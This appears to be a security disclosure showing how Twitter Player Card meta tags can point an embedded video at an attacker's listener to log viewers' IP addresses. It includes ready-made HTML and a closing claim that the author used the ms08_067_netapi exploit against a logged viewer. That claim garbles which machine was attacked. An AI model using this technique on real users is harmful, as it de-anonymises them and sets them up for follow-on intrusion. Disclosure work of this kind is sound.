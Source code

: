 # Watching a video on Twitter maybe put your PC or phone in a risk

## Summary

Twitter allows embedding of videos in a tweet via [Twitter Player Cards](https://dev.twitter.com/docs/cards/types/player-card), The case is in playing method of the embedded video, The current playing method is by use a sandbox `iframe`  to play the embedded video(s) even this might protected against [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting) but still unsafe because it doesn't protected **HTTP Request Sender**  information such as **IP Address, User-Agent ,referer**.
> A lot of Twitter users used to use a VPN to keep these safe from Twitter himself, will they agreed to share them with 3rd-part and this 3rd-part could be anyone

The attacker can embedding a link for request logger or can listen to connections in order to get the IP address of the video viewer.   

## Replication Steps

#### Step 1: Adding the pertinent Twitter meta tags to your page
You need to add some Twitter specific meta tags to your page to enable Twitter Player Cards. 

|Name|Content|
|--- |--- |
|twitter:card|Type of Twitter card; Must be set to a value of “player”|
|twitter:title|The title of your content as it should appear in the card|
|twitter:site|The Twitter @username the card should be attributed to|
|twitter:description|Description of the content (optional)|
|twitter:player|Listener or Request Logger URL **Must be HTTPS URL**|
|twitter:player:width|Width of IFRAME specified in twitter:player in pixels|
|twitter:player:height|Height of IFRAME specified in twitter:player in pixels|
|twitter:image|Image to be displayed in place of the player on platforms that don’t support iframes or inline players; you should make this image the same dimensions as your player|

Here are some sample with a listener in 192.168.1.1:2020:

```html
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
```


----------


#### Step 2:  Host the your page


----------


#### Step 3: Validating your URL using the Twitter validator tool:
Once you have added the meta tags and published your page, copy and paste the page URL into the [Twitter Card Validator](https://cards-dev.twitter.com/validator) and then click **Preview Card**.

![F156985](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_41_50.png)

----------


#### Step 4: Request approval for whitelisting
If your domain has not been whitelisted by Twitter, the Player Cards will not appear. When validating the URL, a message will appear stating that the URL has not been whitelisted.


Click **Request Approval** to begin the approval process. You will be required to provide additional information about your domain. For more information on the approval process, see the [Twitter documentation](https://dev.twitter.com/cards/types/player/approval).

![F156986](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_49_24.png)


----------


#### Step 5: Share it on twitter:
When the embedded video is begin played you might received the viewer(s) IP (I suggest to use request logger) .

![F156990](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_52_28.png)


### PoC Video

I've take a video for PoC, Testing the vulnerability on a Virtual Machine running on WINXP SP2.(**Computer B**)
The source code of tw.html page:

```html

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Twitter cards vulnerability</title>
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
</head>
</html>
```
I've hosted the page on a server then share the URL on Twitter then I Copied the status URL and played the embedded video from the Virtual Machine, I've the IIP address of **Computer B** by listening to any connections in the port **2020**  from **Computer A** then I attacked the **Computer B** with `ms08_067_netapi` exploit and I've gain access to the **Computer A**

https://www.youtube.com/embed/0occxD9v11M
